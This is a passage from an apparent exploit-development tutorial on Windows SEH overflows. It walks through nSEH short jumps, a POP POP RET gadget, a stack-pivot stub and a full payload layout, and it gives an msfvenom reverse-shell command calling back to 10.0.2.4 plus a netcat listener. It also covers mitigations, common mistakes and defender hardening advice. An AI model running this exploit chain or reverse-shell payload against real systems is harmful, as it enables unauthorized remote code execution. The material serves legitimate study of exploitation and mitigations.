nSEH   = pack("<L", 0x06eb9090)   # bytes in memory: 90 90 EB 06  => NOP; NOP; JMP +6
hSEH   = pack("<L", 0x1015a2f0)   # POP EAX; POP EBX; RET
```

> **Reading `0x06eb9090`.** `pack("<L", ...)` writes little-endian, so the four bytes
> land in memory as `90 90 EB 06`. Executed in order that is `NOP`, `NOP`, then
> `JMP +6`. The two NOPs simply pad the front of the 4-byte slot; the jump does the
> real work. The `+6` skips the 4 handler bytes and a couple of alignment bytes,
> landing in attacker-controlled space.
{: .prompt-info }



*Figure 15.4 — The short jump in `nSEH` vaults over the `SEH` handler bytes and lands
in the buffer beyond. This back-and-forth — gadget → nSEH → forward jump — is why the
technique is sometimes called "island hopping."*

Sending this and inspecting the buffer confirms we reach controllable space:



*Figure 15.5 — After the short jump we are firmly back in bytes we control. From here
we could place shellcode — except for one problem we discover next.*

```text
dd eip L30
```



*Figure 15.6 — The space immediately after the jump landing is **too small** to hold a
full reverse-shell payload. We have execution, but not enough room. The solution is to
relocate the shellcode and make a longer hop to reach it.*

---

## 16. Relocating and Reaching the Shellcode

When the landing zone is cramped, we move the real shellcode to a roomier part of the
buffer and use a small staging stub to reach it. First, plant a recognizable dummy
payload so we can find it in memory:

```python
nSEH      = pack("<L", 0x06eb9090)   # NOP NOP JMP +6
hSEH      = pack("<L", 0x1015a2f0)   # POP EAX; POP EBX; RET
shellcode = b"C" * 400               # placeholder we can search for
```

We search the thread's stack for a marker (NOPs followed by our `C` bytes). The
stack range comes straight from the TEB:

```text
s -b 0087e000 00880000 90 90 90 90 43 43 43 43
```



*Figure 16.1 — Searching between `StackLimit` (`0087e000`) and `StackBase`
(`00880000`) for `90 90 90 90 43 43 43 43` locates our staged payload at `0087fc60`.
The `!teb` panel even shows the `PEB Address` (`0038a000`) — a reminder of how TEB and
PEB are always one dereference apart.*

We verify the payload arrived without truncation:



*Figure 16.2 — A `dd` dump of the staged region shows an unbroken run of `43434343`.
No bad character mangled it, so a real payload of the same size will also survive.*

Now compute the distance from the current stack pointer to the staged shellcode:

```text
? 0087fc64 - @esp
```



*Figure 16.3 — The shellcode sits `0x870` (2160) bytes above `ESP`. If we add `0x870`
to `ESP` and then jump to `ESP`, we land exactly on the payload. This is the "long
hop" of island hopping.*

The naive instruction `add esp, 0x870` assembles with null bytes (`0x00`) — a bad
character. We dodge this by operating on the 16-bit `SP` half-register instead:

```text
add sp, 0x870     ; 66 81 C4 70 08   -> no null bytes
jmp esp           ; FF E4
```



*Figure 16.4 — Assembling `add esp, 0x870` produces bytes containing `0x00` — a bad
character for this target. We cannot use it directly.*



*Figure 16.5 — Switching to the 16-bit `add sp, 0x870` yields `66 81 C4 70 08` — no
null bytes, no other bad characters. The `66` prefix selects the 16-bit operand size.
This is a classic bad-character-avoidance trick.*



*Figure 16.6 — `jmp esp` assembles to `FF E4`, also clean. After `add sp, 0x870`
moves `ESP` onto the shellcode, `jmp esp` transfers execution there.*

The staging stub now lives right after the short jump:

```python
filler    = b"A" * 124
nSEH      = pack("<L", 0x06eb9090)   # NOP NOP JMP +6
hSEH      = pack("<L", 0x1015a2f0)   # POP EAX; POP EBX; RET
alignment = b"\x90" * 2              # padding
add_sp    = b"\x66\x81\xc4\x70\x08"  # add sp, 0x870
jmp_esp   = b"\xff\xe4"              # jmp esp
nop       = b"\x90" * (...)          # NOP sled to the shellcode
shellcode = b"C" * 400               # (real payload goes here later)

inputbuffer = filler + nSEH + hSEH + alignment + add_sp + jmp_esp + nop + shellcode
```

Stepping through, we watch `jmp esp` land precisely on the payload:



*Figure 16.7 — Execution flows through `add sp, 0x870` and `jmp esp` and arrives
exactly on the `43434343` shellcode region. The staging stub successfully bridged the
small landing zone to the roomy payload area. All that remains is to swap the dummy
`C` bytes for a real payload.*



*Figure 16.8 — The complete redirection chain. Each tiny stub solves one constraint:
the gadget gives control, the short jump skips the handler bytes, and the
`add sp`/`jmp esp` pair reaches across the gap to the spacious payload region.*

> "Island hopping" is the general skill of chaining several small, constrained code
> fragments to travel from your initial foothold to your final payload. Every hop
> exists to satisfy a constraint — a 4-byte slot here, a bad character there, a cramped
> landing zone elsewhere. Real-world exploits often hop several times.
{: .prompt-tip }

---

## 17. Generating Shellcode and Catching the Shell

With a reliable path to a large, intact buffer, we generate a real payload — a
reverse shell — explicitly excluding our bad characters:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=443 \
         EXITFUNC=thread -b "\x00\x02\x0a\x0d\xf8\xfd" -f python -v shellcode
```



*Figure 17.1 — `msfvenom` produces a reverse-shell payload encoded to avoid
`\x00\x02\x0a\x0d\xf8\xfd`. The `-b` flag is what guarantees none of our forbidden
bytes appear; `EXITFUNC=thread` makes the payload exit cleanly without killing the
whole service.*

> The encoder (typically a polymorphic XOR decoder) prepends a small **decoder stub**
> that, at runtime, rebuilds the original shellcode in memory and jumps to it. This is
> why the encoded bytes look like noise and why a NOP sled in front of the payload
> improves reliability — it gives the decoder a clean runway.
{: .prompt-info }

We drop the payload into the final exploit, replacing the dummy `C` bytes:



*Figure 17.2 — The completed exploit. Structure: 124 bytes of filler → `nSEH` short
jump → `SEH` POP POP RET → alignment → `add sp, 0x870` → `jmp esp` → NOP sled →
encoded reverse-shell shellcode.*

Start a listener to receive the connection:

```bash
nc -nlvp 443
```



*Figure 17.3 — A `netcat` listener bound to port 443, ready to catch the reverse
shell the payload will connect back to.*

Fire the exploit:

```bash
python3 seh_overflow.py 10.0.2.15
```



*Figure 17.4 — The exploit sends its final payload. Moments later the listener
receives an inbound connection and a command shell on the target — full remote code
execution achieved through an SEH overwrite.*



*Figure 17.5 — The complete attack as a message-sequence diagram, from the first
packet to the returned shell.*

---

## 18. The Full Exploit Flow, End to End

It helps to see the entire methodology as one picture. Every step you performed maps
to a box here:



*Figure 18.1 — The ten-step SEH exploitation methodology. This sequence is
reusable: nearly every classic 32-bit SEH overflow follows the same arc.*

And the final memory layout of the buffer, annotated with offsets:

```text
Offset    Bytes                       Purpose
------    ------------------------    --------------------------------------------
0         "A" * 124                   filler / padding
124       90 90 EB 06                 nSEH  : NOP NOP JMP +6  (hop over SEH)
128       F0 A2 15 10                 SEH   : 0x1015a2f0 POP EAX; POP EBX; RET
132       90 90                       alignment
134       66 81 C4 70 08              add sp, 0x870   (move ESP onto shellcode)
139       FF E4                       jmp esp
141       90 ...                      NOP sled
...       <encoded reverse shell>     payload (msfvenom, bad chars excluded)
```



*Figure 18.2 — The final payload layout. Notice how compact the control logic is —
just 17 bytes of stubs (`nSEH` + `SEH` + alignment + `add sp` + `jmp esp`) steer the
CPU from a corrupted handler all the way to a reverse shell.*

---

## 19. Defenses: SafeSEH, SEHOP, DEP, and ASLR

The exploit above worked because the target was built with essentially **no modern
mitigations**. Each defense below would have broken a specific link in our chain.



*Figure 19.1 — Which mitigation breaks which step of the attack. A fully hardened
target trips several of these simultaneously.*

### 19.1 SafeSEH

**What it is.** A compile-time mitigation. When a module is built with `/SAFESEH`,
the linker emits a table of every legitimate exception-handler address in that
module.

**Why it exists.** To stop exactly our trick of pointing `Handler` at an arbitrary
address (like a POP POP RET in the middle of a function, which is *not* a real
handler).

**How Windows implements it.** During dispatch, `RtlIsValidHandler` (Figure 8.2)
checks the candidate handler against the module's SafeSEH table. If the address is
not a registered handler, dispatch is refused.

**Impact on the attack.** A POP POP RET address is never a registered handler, so a
SafeSEH-protected module cannot supply our gadget. This is why, in Figure 14.2, we
specifically verified every module was `/SafeSEH OFF`.

**How attackers respond.** Find a POP POP RET inside a module that was *not* compiled
with SafeSEH (mixed binaries are common), or use an address *outside* any module's
SafeSEH coverage. The mitigation is only as strong as the weakest-linked module in
the process.

### 19.2 SEHOP

**What it is.** SEH Overwrite Protection — a *runtime* mitigation that validates the
**integrity of the chain** rather than individual handlers.

**Why it exists.** SafeSEH guards handler *addresses*; SEHOP guards the *links*. It
catches overwrites even when no SafeSEH table exists.

**How Windows implements it.** At thread start, the OS inserts a known final record
whose handler is `ntdll!FinalExceptionHandler`. Before dispatching, it walks the
entire chain from `FS:[0]` and confirms it can reach that sentinel via valid `Next`
pointers. Our overflow smashes a `Next` pointer with `41414141`, so the walk can
never reach the sentinel — and dispatch is aborted.



*Figure 19.2 — SEHOP walks the chain to a known terminal handler. A corrupted `Next`
pointer breaks the walk, so SEHOP detects the overwrite and refuses to dispatch.*

**How attackers respond.** SEHOP is harder to bypass. Techniques involve forging a
*complete, valid-looking* chain that still terminates at the real sentinel — difficult
without an information leak and precise control of stack contents.

### 19.3 DEP / NX

**What it is.** Data Execution Prevention marks data pages (stack, heap) as
**non-executable**. Hardware enforces it via the NX bit.

**Why it exists.** To stop the final step of countless exploits: executing shellcode
that lives in a data region like the stack.

**How Windows implements it.** Page-table entries carry an execute permission. If the
CPU tries to fetch an instruction from a non-executable page, it faults.

**Impact on the attack.** Our payload runs from the stack. Under DEP, `jmp esp` into
stack-resident shellcode faults immediately.

**How attackers respond.** Return-Oriented Programming (ROP) — chain together
existing executable code fragments ("gadgets") to call `VirtualProtect` /
`VirtualAlloc` and make a region executable, then jump to the now-executable
shellcode. ROP is the natural successor skill to SEH overwrites.

### 19.4 ASLR

**What it is.** Address Space Layout Randomization randomizes module load addresses
(and stack/heap bases) on each boot/launch.

**Why it exists.** Our exploit hard-coded `0x1015a2f0`. ASLR makes such fixed
addresses unreliable because the module may load anywhere.

**How Windows implements it.** Modules built with `/DYNAMICBASE` are relocated to a
randomized base; the randomization entropy is higher on 64-bit systems.

**Impact on the attack.** A hard-coded POP POP RET address becomes wrong on the next
launch, breaking the exploit.

**How attackers respond.** Find a single module that is **not** ASLR-enabled (a fixed
anchor — exactly what `libspp` was for us), or use an information leak to discover a
module's runtime base and compute the gadget address dynamically.

> **Mitigations are layered, not absolute.** Our walkthrough succeeded because every
> layer was missing. On a modern, fully hardened target you would typically need: a
> non-SafeSEH module *and* (if SEHOP is on) a chain-forging trick *and* a ROP chain to
> defeat DEP *and* an info leak to defeat ASLR. The point of studying the unmitigated
> case is to understand each layer in isolation before combining bypasses.
{: .prompt-danger }

| Mitigation | Type | Breaks which step | Common bypass |
|---|---|---|---|
| **SafeSEH** | Compile-time | Handler → arbitrary address | Use a non-SafeSEH module |
| **SEHOP** | Runtime | Corrupted `Next` pointer | Forge a valid full chain |
| **DEP/NX** | Hardware/OS | Execute shellcode on stack | ROP → `VirtualProtect` |
| **ASLR** | OS | Hard-coded gadget address | Non-ASLR module or info leak |
| **Stack cookies (`/GS`)** | Compile-time | Return-addr overwrite | SEH overwrite itself often bypasses `/GS` |

*Table 19.1 — The modern mitigation stack and how each one constrains SEH
exploitation.*

---

## 20. Debugging Methodology and Common Mistakes

A disciplined methodology turns exploit development from guesswork into engineering.



*Figure 20.1 — A repeatable workflow. Each stage produces a verified fact before you
move on; never advance on an assumption you have not confirmed in the debugger.*

**Common mistakes — and how to avoid them:**

> - **Skipping bad-character analysis.** The single most common cause of a "working"
>   exploit that mysteriously fails. A bad byte in your gadget address, short jump, or
>   shellcode corrupts everything downstream. Enumerate them *before* choosing
>   addresses.
> - **Choosing a gadget address that contains a bad character.** `0x1015a2f0` was
>   usable only because none of its bytes were forbidden. Always check the address
>   bytes against your bad-char set.
> - **Picking a POP POP RET in a SafeSEH-protected or ASLR-enabled module.** Audit
>   modules first (`!nmod`/equivalent). A gadget in a protected module either gets
>   rejected or moves on the next run.
> - **Forgetting the short jump in `nSEH`.** Landing on `nSEH` without a jump means
>   executing your handler-address bytes as code — instant crash.
> - **Miscounting the offset by 4.** `nSEH` is at offset 124, `SEH` at 128. Off-by-one
>   (really off-by-four) errors here put your jump and gadget in the wrong fields.
> - **Ignoring space constraints.** If the landing zone is small (Figure 15.6), you
>   must stage and hop; trying to cram a full payload into a tiny slot truncates it.
> - **Wrong `EXITFUNC`.** `EXITFUNC=process` may tear down the whole service (and your
>   shell) on payload exit; `EXITFUNC=thread` exits only the worker thread.
> - **Letting the debugger swallow the exception.** Configure your debugger to pass
>   the first-chance exception to the application so the SEH dispatch you are studying
>   actually runs.
{: .prompt-warning }

> Keep a lab notebook. Record the offset, the bad-character set, the chosen gadget
> address and its module, and the stack ranges from `!teb`. When an exploit breaks
> after a target update, these notes turn a multi-hour re-derivation into a
> five-minute diff.
{: .prompt-tip }

---

## 21. The Modern Relevance of SEH Exploitation

Is SEH exploitation obsolete in an era of SafeSEH, SEHOP, DEP, ASLR, CFG, and CET?
No — and understanding *why* is valuable for both attackers and defenders.

- **It still works against real software.** Plenty of deployed 32-bit applications —
  industrial/SCADA software, legacy enterprise services, embedded management
  consoles, older third-party DLLs — ship without SafeSEH or ASLR on every module. A
  single unprotected module in the process is often enough.
- **It is the canonical teaching vehicle.** SEH overwrites teach the complete
  exploitation arc — crash analysis, offset finding, bad characters, gadget hunting,
  control-flow redirection — in a self-contained package. The mental models transfer
  directly to heap exploitation, ROP, and modern browser/kernel work.
- **It explains the mitigations.** You cannot reason about SafeSEH, SEHOP, or `/GS`
  bypasses without understanding the attack they were built to stop. Defenders who
  grasp the SEH overwrite make better decisions about compiler flags and module
  hardening.
- **It connects to ROP.** When DEP is present, the SEH overwrite becomes the *delivery
  mechanism* for a ROP chain rather than for raw shellcode. The front half of the
  technique (control the handler, POP POP RET, redirect) is unchanged; only the
  payload evolves.



*Figure 21.1 — SEH exploitation is the foundation layer. Each modern mitigation adds a
technique on top, but the base skill — turning a corrupted handler into controlled
execution — remains the entry point.*

> **For defenders.** The cheapest, highest-impact hardening is to compile *every*
> module — including third-party DLLs you bundle — with `/SAFESEH`, `/DYNAMICBASE`
> (ASLR), `/NXCOMPAT` (DEP), and `/GS`, and to enable SEHOP system-wide. The exploit
> in this article depended on the *absence* of these. Turning any one of them on would
> have forced an attacker to do substantially more work; turning all of them on raises
> the bar dramatically.
{: .prompt-info }

---

## 22. Glossary

| Term | Meaning |
|---|---|
| **SEH** | Structured Exception Handling — Windows' mechanism for dispatching exceptions to handler functions. |
| **TEB** | Thread Environment Block — per-thread structure; holds the SEH chain head and stack bounds. Reached via `FS:[0]`. |
| **PEB** | Process Environment Block — per-process structure; holds loaded modules, parameters, and global flags. |
| **`_NT_TIB`** | Thread Information Block — first member of the TEB; its first field is the `ExceptionList`. |
| **`FS:[0]`** | The head of the current thread's SEH chain (`_NT_TIB.ExceptionList`). |
| **`_EXCEPTION_REGISTRATION_RECORD`** | One link in the SEH chain: `Next` (+0x000) and `Handler` (+0x004). |
| **nSEH** | Attacker term for the overwritten `Next` field; we place a short jump here. |
| **SEH (field)** | Attacker term for the overwritten `Handler` field; we place a POP POP RET address here. |
| **POP POP RET** | A 3-instruction gadget that returns into `EstablisherFrame` (== our `nSEH`), bouncing execution into our buffer. |
| **`CONTEXT`** | Snapshot of all CPU registers at fault time, used to resume a thread after handling. |
| **`_EXCEPTION_DISPOSITION`** | A handler's verdict: `ContinueSearch` (try next) or `ContinueExecution` (resume). |
| **`RtlIsValidHandler`** | The function that enforces SafeSEH during dispatch. |
| **SafeSEH** | Compile-time mitigation: only handler addresses in a module's registered table are allowed. |
| **SEHOP** | Runtime mitigation: validates the integrity of the whole SEH chain up to a sentinel handler. |
| **DEP / NX** | Marks data pages non-executable to stop shellcode execution from the stack/heap. |
| **ASLR** | Randomizes module/stack/heap addresses to defeat hard-coded addresses. |
| **Island hopping** | Chaining small code stubs (short jumps, stack pivots) to travel from foothold to payload. |
| **Bad character** | A byte value that gets mangled/truncated in transit and must be excluded from the payload. |
| **Cyclic pattern** | A non-repeating string used to measure exact overflow offsets. |

---

### Closing Thoughts

An SEH overwrite is a small miracle of misdirection: you never directly set `EIP`.
Instead, you corrupt a data structure the operating system *trusts*, then trigger a
fault and let the OS hand you control through its own dispatcher. POP POP RET turns
"I control a function pointer" into "I am running inside my own buffer," a short jump
hops over the obstacle the layout creates, and a stack pivot reaches across to the
payload. Each step solves one concrete constraint, and together they form a complete,
reliable path from a single oversized packet to an interactive shell.

Master this, and you have mastered the grammar of memory-corruption exploitation —
the same grammar that, with ROP and information leaks layered on top, still underpins
the most advanced exploits today.

*Build things. Break things. Understand both. — and only ever on systems you are
authorized to test.*
